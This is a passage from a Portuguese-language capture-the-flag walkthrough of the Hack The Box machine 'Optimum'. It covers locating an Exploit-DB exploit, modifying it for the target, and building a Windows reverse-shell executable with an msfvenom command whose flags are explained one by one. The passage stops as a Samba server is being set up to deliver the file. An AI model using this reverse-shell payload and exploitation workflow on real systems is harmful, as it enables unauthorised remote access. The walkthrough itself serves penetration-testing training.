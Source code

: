![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_wespy2.png)

### Pesquisamos como faremos pra explorar essa vulnerabilidade

Procuramos no google mesmo, pelo seu código

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_expdb.png)

Encontramos um link do Exploit-DB

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_db.png)

#### Após analizarmos o código, vimos que temos que realizar algumas pequenas mudanças para que o exploit funcione na máquina Optimum

O "problema" é que ele deveria executar um PowerShell, como esta especificado no nome do exploit, contudo no corpo do exploit temos cmd.exe. Como mostrado na imagem:

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_db1.png)

#### Realizamos as mudanças nele

Deverá ficar dessa maneira

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_exploit.png)

### Criação do exploit.exe

Com o auxílio do **msfvenom** criamos o exploit.exe

> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.119 LPORT=443 -f exe > exploit.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-optimum/Opt_exploit1.png)

Explicação msfvenom

> -p windows/shell_reverse_tcp --> Qual é o payload que vou utilizar.

> LHOST --> Qual o IP que a máquina explorada deve tentar se conectar quando executar o exploit

> LPORT --> Qual porta que a máquina explorada deve tentar se conectar quando executar o exploit

> -f exe --> formato que vai ser salvo o exploit

## Para enviar o arquivo para a máquina Optmium utilizaremos de um Servidor Samba do impacket

### A utilização é simples e será descrita nas imagems abaixo:

Primeiro passo é levantar o servidor samba na máquina Kali
